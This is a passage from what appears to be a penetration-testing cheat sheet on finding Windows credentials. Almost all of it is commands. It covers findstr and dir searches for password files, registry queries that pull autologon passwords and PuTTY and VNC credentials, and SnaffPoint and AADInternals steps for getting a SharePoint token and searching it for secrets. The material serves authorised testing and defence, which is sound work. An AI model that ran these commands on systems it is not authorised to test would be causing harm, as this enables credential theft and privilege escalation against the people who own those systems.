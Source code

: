 ### LAPS Settings

Extract `HKLM\Software\Policies\Microsoft Services\AdmPwd` from Windows Registry.

- LAPS Enabled: AdmPwdEnabled
- LAPS Admin Account Name: AdminAccountName
- LAPS Password Complexity: PasswordComplexity
- LAPS Password Length: PasswordLength
- LAPS Expiration Protection Enabled: PwdExpirationProtectionEnabled

### Search for file contents

```
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt
findstr /spin "password" *.*
```

Also search in remote places such as SMB Shares and SharePoint:

- Search passwords in SharePoint: [nheiniger/SnaffPoint](https://github.com/nheiniger/SnaffPoint) (must be compiled first, for referencing issue see: https://github.com/nheiniger/SnaffPoint/pull/6)

```
# First, retrieve a token
## Method 1: using SnaffPoint binary
$token = (.\GetBearerToken.exe https://your.sharepoint.com)
## Method 2: using AADInternals
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
$token = (Get-AADIntAccessToken -ClientId "9bc3ab49-b65d-410a-85ad-de819febfddc" -Tenant "your.onmicrosoft.com" -Resource "https://your.sharepoint.com")

# Second, search on Sharepoint
## Method 1: using search strings in ./presets dir
.\SnaffPoint.exe -u "https://your.sharepoint.com" -t $token
## Method 2: using search string in command line
### -l uses FQL search, see: https://learn.microsoft.com/en-us/sharepoint/dev/general-development/fast-query-language-fql-syntax-reference
.\SnaffPoint.exe -u "https://your.sharepoint.com" -t $token -l -q "filename:.config"
```

- Search passwords in SMB Shares: [SnaffCon/Snaffler](https://github.com/SnaffCon/Snaffler)

### Search for a file with a certain filename

```
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

### Search the registry for key names and passwords

```
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```